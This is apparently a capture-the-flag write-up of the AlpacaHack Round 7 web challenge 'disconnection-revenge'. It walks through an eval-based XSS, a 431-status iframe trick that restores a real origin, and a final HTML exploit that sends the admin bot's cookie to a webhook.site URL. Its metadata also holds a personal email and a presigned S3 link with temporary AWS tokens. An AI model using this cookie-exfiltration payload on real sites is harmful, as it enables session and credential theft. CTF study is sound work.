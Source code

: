 ```yaml
---
id: 14e48583-e65d-80e6-b8d5-c53f07905d97
title: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
created_time: 2024-11-30T11:42:00.000Z
last_edited_time: 2025-05-22T09:27:00.000Z
cover_image: ./imgs/just-a-chill-guy_3tLjvXZj.jpg
icon_emoji: 😭
categories:
  - XSS
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/just-a-chill-guy_3tLjvXZj.jpg

---
```


Unfortunately, I solved this challenge only 30 minutes after the CTF ended. Here is my write-up about the challenge.

![](./imgs/image_DwgIE5Io.png)

![](./imgs/image_OeAvG4ga.png)

# Description

This is a fixed challenge of `disconnection`.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/05b115ea-7d4c-4e24-b39d-6e32117c2161/disconnection-revenge.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB4666HDTNBP2%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T092220Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDEaCXVzLXdlc3QtMiJGMEQCIC4k4ddSjtMdkl%2FYkviSnD2GFizyNlkPHWaasuksf5qWAiBTGLUdFomLqlGrAoPjJ5Cvix3ZrKV5ktdKa3VvqgxrESqIBAjq%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAAaDDYzNzQyMzE4MzgwNSIMlz%2BGjIvgR7FQHtCJKtwDi3rOV89iFT7CzGNUxAqwWwIaI1KDgozcEOfmNe3AAgugOAHwd7ULXJR7gmRfY%2BFrE9Ls9b4Ytwok9xlZWPG1YRZDaWxk9vW%2BbUPwFvFAF8yrfuWuxcIEdwDvjZO%2B5Q6veOQz3TCf1dD8iH2ts94lSYa2ImhZih1PmltOvcunbiS7acksFx2iUqw3nkyJQKKOI2TjgnYi60Rpk6Kb6AjdIOvlJpkN4wH%2Bx1mzpMkz7ISOjmmjYwC%2FowwoSmqLIOvWJQ%2Fu9vRAgUR2NpQFY6eeYMeq%2BZUIBPKOJ7dTJfoAZkgfpSnIgiW5mAD9AisnGAE8I6sg7GhFUCx%2FOL1Es36HiBpX8ue0CLGMPgqJ5a1AsYPKE0iNy%2BmtadKQgOYAnC8JoxjjYjI4n1A78G6bhVahFTMWfdGCvXQLifNHdHGIvWus%2FYf2w7mWHiTDTxC6ir6ZoTft7md2Ul6703fymAoCO7lKkdc1DZPy%2FunP774%2FOkYlLQGT8rS%2FTyNAM9lREz2%2B0faaUtJZXJZQh7kSHVm55%2BmDdgBPENcYBWLd3yLQ8B4dzqiLu5JduyQ%2FR8JVPGTBmF3KyORMuIo2GLiZc6j9mUg0aXLej8RCI3dfOv%2Fg44JqpmtgkV%2Bj1J7x6JYwg%2FLAwQY6pgF0N2REs95TfOJCepcyUBAbwT8sJFNSKSMuW135ubtu2SzWRs9EsEEeJgXlXrkEleyLiywYeRC3bPoos47GV25amoO%2F9%2FUYsZsY%2BlMEdO9%2BnOUpfd4Ga5mLtoARDUYfN0t3VLW02cc7GN16RbXEcl2IKybalSs68rE2WNssIIHVdEM6vfRGrQFkwv%2B3P1e8C633SShSFlTmFSiz2ZxqoR3ZZJ81w%2BX4\&X-Amz-Signature=670a0e204679a196694c73c15cdde2b85219efc89407806ab4b0706fd8c7313d\&X-Amz-SignedHeaders=host\&x-id=GetObject)

*   Challenge: [http://34.170.146.252:55944](http://34.170.146.252:55944/), Admin bot: [http://34.170.146.252:56152](http://34.170.146.252:56152/) shared

# Exploit

In this challenge, we are given source code like this:

```javascript
import express from "express";

const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();

express()
  .use("/", (req, res, next) => {
    res.setHeader(
      "Content-Security-Policy",
      "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
    );
    next();
  })
  .get("/", (req, res) => res.type("html").send(html))
  .all("/*", (req, res) => res.socket.destroy()) // disconnected
  .use((err, req, res, next) => {
    // revenge!
    res.socket.destroy(); // disconnected
  })
  .listen(3000);

```

The interesting part about this source code is in the Content Security Policy (CSP):

```javascript
res.setHeader(
  "Content-Security-Policy",
  "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
);

```

The disconnect mechanism:

```javascript
.all("/*", (req, res) => res.socket.destroy()) // disconnected
.use((err, req, res, next) => {
  // revenge!
  res.socket.destroy(); // disconnected
})

```

There's also a code injection vulnerability here that allows us to gain XSS:

```javascript
const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();
```

The flag is located in the `/cookie` path, as shown in this snippet of the source code:

```javascript
await page.setCookie({
  name: "FLAG",
  value: FLAG,
  domain: APP_HOST,
  path: "/cookie", // 🍪
});

```

The interesting part is that we can't get the flag easily by accessing `/cookie` directly using XSS and get the cookie from that. The disconnect mechanism causes us to be instantly disconnected when accessing any URL except `/`, resulting in a browser error. Therefore, when we try to access URLs like `/cookie`, the browser will instantly error ERR\_EMPTY\_RESPONSE, and the origin will be null as shown in the image below.

![](./imgs/image_xyiZIUrb.png)

There’s a trick introduced in a previous Google CTF to bypass this issue, as detailed in this [Google CTF solution](https://github.com/google/google-ctf/tree/8ea1054a4a6af49e8cf14e10896dc94d73126a29/2023/quals/web-postviewer2/solution#no-csp-subpage). The trick involves adding an arbitrarily large number of characters into the parameters to make the server return `431 (Request Header Fields Too Large)`. However, simply adding a large number of characters to the parameters won't work, as shown in the image below, where the origin is still null.

![](./imgs/image_oXKFjaHs.png)

The key is to iframe the `431` page, which somehow makes the origin become the original origin instead of null, as shown in the image below.

![](./imgs/image_U9FpYp4t.png)

But… there’s always a problem after problem. The cookie isn’t included in the iframe because the cookie isn’t set to `SameSite=None`, so it’s not included in the iframe in a different origin.

![](./imgs/image_nVR512CH.png)

I just found a strange trick after trying to open a new opener inside the `/cookie` path here:

![](./imgs/image_8Oq9CJYo.png)

When I try to `open("")`, it will have an origin, and the location is `about:blank`. There’s also the flag that should be in the `/cookie` path. I assume that the window we open is somehow in the `/cookie` path, but with the `about:blank` location. I don't know why this happens 💀. But here is my final exploit:

```html
<html>
    <body>
        <iframe></iframe>
        <iframe></iframe>
        <script>
            async function main(){
                const target = "disconnection-revenge"
                const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
                var iframe = document.getElementsByTagName('iframe')[0];
                iframe.src = "http://"+target+":3000/cookie/?"+"A".repeat(100000);
                await sleep(1000);
                var iframe2 = document.getElementsByTagName('iframe')[1];
                iframe2.src = "http://"+target+":3000/?xss="+"w = top.frames[0].open('');setTimeout(()=>{open(`https://webhook.site/37fa4a4c-9842-42db-9431-a15d81aee4a0?${w.document.cookie}`)},1000)";
                await sleep(1000);
            }
            main();
        </script>
    </body>
</html>

```

![](./imgs/image_BQK3W663.png)
